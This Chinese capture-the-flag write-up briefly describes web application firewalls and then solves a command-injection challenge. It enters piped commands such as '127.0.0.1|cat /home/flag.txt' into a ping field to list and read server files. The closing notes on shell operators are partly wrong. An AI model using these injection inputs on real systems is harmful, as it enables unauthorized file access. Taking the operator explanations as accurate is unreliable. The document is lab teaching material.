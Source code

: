 WAF:Web应用防护系统，Web应用防火墙是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的一款产品。
WAF功能分为4个部分：审计设备，访问控制设备，架构/网络设计工具，WEB应用加固工具
审计设备：对于系统自身安全相关的下列事件产生审计记录：
（1）管理员登录后进行的操作行为；
（2） 对安全策略进行添加、修改、删除等操作行为；
（3） 对管理角色进行增加、删除和属性修改等操作行为；
（4） 对其他安全功能配置参数的设置或更新等行为。
访问控制设备：用来控制对Web应用的访问，既包括主动安全模式也包括被动安全模式。
架构/网络设计工具：当运行在反向代理模式，他们被用来分配职能，集中控制，虚拟基础结构等。
WEB应用加固工具：这些功能增强被保护Web应用的安全性，它不仅能够屏蔽WEB应用固有弱点，而且 能够保护WEB应用编程错误导致的安全隐患。

那这题就是所谓的没有上waf，也就是可以篡改网站。


1、首先ping本地
2、ping本地的同时搜索flag，命令如下：
127.0.0.1 |find / -name “*.txt”
出现以下的信息：
ping -c 3 127.0.0.1|find / -name "*.txt"
/home/flag.txt
/usr/lib/python3.4/idlelib/HISTORY.txt
/usr/lib/python3.4/idlelib/extend.txt
/usr/lib/python3.4/idlelib/TODO.txt
/usr/lib/python3.4/idlelib/README.txt
/usr/lib/python3.4/idlelib/help.txt
/usr/lib/python3.4/idlelib/NEWS.txt
/usr/lib/python3.4/idlelib/CREDITS.txt
/usr/lib/python3.4/LICENSE.txt
/usr/lib/python3.4/lib2to3/PatternGrammar.txt
/usr/lib/python3.4/lib2to3/Grammar.txt
/usr/share/perl/5.18.2/Unicode/Collate/keys.txt
/usr/share/perl/5.18.2/Unicode/Collate/allkeys.txt
/usr/share/perl/5.18.2/unicore/NamedSequences.txt
/usr/share/perl/5.18.2/unicore/SpecialCasing.txt
/usr/share/perl/5.18.2/unicore/Blocks.txt
/usr/share/doc/libdb5.3/build_signature_amd64.txt
/usr/share/doc/gnupg/Upgrading_From_PGP.txt
/usr/share/doc/openssl/HOWTO/keys.txt
/usr/share/doc/openssl/fingerprints.txt
/usr/share/vim/vim74/doc/help.txt

5、使用127.0.0.1|cat /home/flag.txt可得到flag


wp：
 1、| 的作用为将前一个命令的结果传递给后一个命令作为输入
      &&的作用是前一条命令执行成功时，才执行后一条命令


2、掌握有关命令执行的知识windows或linux下:
command1 && command2 先执行command1，如果为真，再执行command2
command1 | command2 只执行command2
command1 & command2 先执行command2后执行command1
command1 || command2 先执行command1，如果为假，再执行command2命令执行漏洞（| || & && 称为管道符）


wp第二条，第七条